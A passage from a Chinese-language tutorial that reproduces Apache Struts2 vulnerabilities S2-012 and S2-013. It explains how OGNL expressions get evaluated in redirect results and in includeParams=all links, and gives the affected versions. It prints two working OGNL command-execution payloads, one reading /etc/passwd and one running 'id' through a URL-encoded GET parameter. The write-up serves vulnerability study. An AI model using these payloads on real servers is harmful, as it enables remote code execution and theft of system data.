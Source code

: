 如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param_name} 作为重定向变量，例如：

```xml
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

这里 UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。



**影响版本**：Struts 2.1.0-2.3.13

**复现**：

可直接使用S2-001回显POC 

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```



## 0X07 S2-013复现

**原理**：Struts2 标签中 `<s:a>` 和 `<s:url>` 都包含一个 includeParams 属性，其值可设置为 none，get 或 all，参考官方其对应意义如下：

1. none - 链接不包含请求的任意参数值（默认）
2. get - 链接只包含 GET 请求中的参数和其值
3. all - 链接包含 GET 和 POST 所有参数和其值

`<s:a>`用来显示一个超链接，当`includeParams=all`的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。在放置参数的过程中会将参数进行OGNL渲染，造成任意命令执行漏洞

**复现**:

POC

```
link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('id').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```

![image-20201216152610484](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20201216152610484.png)


